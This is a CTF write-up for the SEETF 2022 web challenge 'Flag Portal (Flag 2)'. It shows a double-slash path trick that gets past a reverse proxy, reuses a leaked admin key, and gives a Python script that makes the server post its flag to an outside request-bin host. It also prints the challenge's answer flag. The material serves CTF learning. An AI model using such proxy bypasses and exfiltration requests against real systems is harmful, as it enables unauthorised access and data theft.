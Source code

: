 ## Challenge Name: Flag Portal (Flag 2)
Author: zeyu2001  
Category: Web  
Points: 100  
Solves: 57  
<br>
>Welcome to the flag portal! Only admins can view the flag for now. Too bad you're behind a reverse proxy ¯\(ツ)/¯<br><br>
Note: There are two flags for this challenge.<br><br>
http://flagportal.chall.seetf.sg:10001

MD5: 0c4f55a57bd99f8438711c3734ccbf4f

[Download Zip File](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/web_flagportal.zip "Zip File")

### Approach
This challenge is the 2nd part of a 2-part challenge so please read [our writeup for the first part of this challenge](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/Flag%20Portal%20(Flag%201).md) first if you haven't already.

From the previous part of the challenge, we have an admin key which is `spendable-snoring-character-ditzy-sepia-lazily`.  

This time, the page of interest is at `/api/flag-plz`. However, the proxy maps this to http://backend/forbidden too. Luckily, we can use the same method as from the previous part of the challenge to bypass this, thus getting an url of `http://flagportal.chall.seetf.sg:10001/api//flag-plz`.

Now, that we can access this site, how do we get the flag? Let's take a look at the source code first!

Looking at the code, we find a relevant snippet in the [backend/server.py](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/web_flagportal/distrib/backend/server.py) file.
```py
@app.route('/flag-plz', methods=['POST'])
def flag():
    if request.headers.get('ADMIN_KEY') == os.environ['ADMIN_KEY']:
        if 'target' not in request.form:
            return 'Missing URL'

        requests.post(request.form['target'], data={
            'flag': os.environ['SECOND_FLAG'],
            'congrats': 'Thanks for playing!'
        })

        return 'OK, flag has been securely sent!'
            
    else:
        return 'Access denied'
```

From here, we can gather that we can make a post request to the challenge server with a [request bin](https://requestbin.com/) for the server to send the flag too. We also realise that the admin key needs to be in the post request header for this to work. Now, let's work on a python script to do the above.
```py
import requests

url = "http://flagportal.chall.seetf.sg:10001/api//flag-plz"
header = {'admin-key': "spendable-snoring-character-ditzy-sepia-lazily"}
data = {"target": "http://enihhe0s1djb.x.pipedream.net/"}
f = requests.post(url=url, headers=header, data=data)
print(f.content)
```

This sends the flag, which is `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`, to our request bin. Yay!
![img](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/Request.png "Image")

### Flag
`SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

---
[Back to home](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups)